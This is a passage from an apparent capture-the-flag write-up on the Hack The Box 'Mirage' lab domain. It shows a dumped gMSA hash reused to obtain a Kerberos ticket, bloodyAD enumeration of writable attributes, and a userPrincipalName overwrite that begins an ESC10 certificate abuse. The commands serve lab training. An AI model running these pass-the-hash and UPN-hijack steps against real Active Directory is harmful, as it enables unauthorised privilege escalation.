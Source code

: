     
    distinguishedName: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
    msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:305806d84<snip>c7866
    msDS-ManagedPassword.B64ENCODED: 43A01mr7V2LGukxowctr<snip>SSjog==


> note that this will fail unless the gmsa is read within a short time of generating this. At least, that's the hypothesis as this getTGT will fail if javier hasn't looked up the NTLM within a short time before this.


```python
!getTGT.py -hashes :305806d84<snip>c7866 mirage.htb/mirage-service
```

    /home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
      import pkg_resources
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Saving ticket in mirage-service.ccache


And with the working ccache, we can authenticate with mirage-service.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get writable --detail --include-del
```

    distinguishedName: CN=mark.bbond,OU=Users,OU=Support,OU=IT_Staff,DC=mirage,DC=htb
    ...
    altSecurityIdentities: WRITE
    servicePrincipalName: WRITE
    userPrincipalName: WRITE
    ...
    
    distinguishedName: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
    ...


The service account, for some reason, has permissions for Mark Bond to set UPN. This is a key requirement for ESC10, along with a service account that we control. Using that we can do the following flow:  
1) Set Mark's UPN to our target 
2) Request a certificate for that UPN  
3) Reset Mark's UPN so it's not used in future lookups
4) Authenticate with our certificate to get access to schannel  


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k set object -v 'dc01$@mirage.htb' --raw mark.bbond userPrincipalName 
```

    [+] mark.bbond's userPrincipalName has been updated

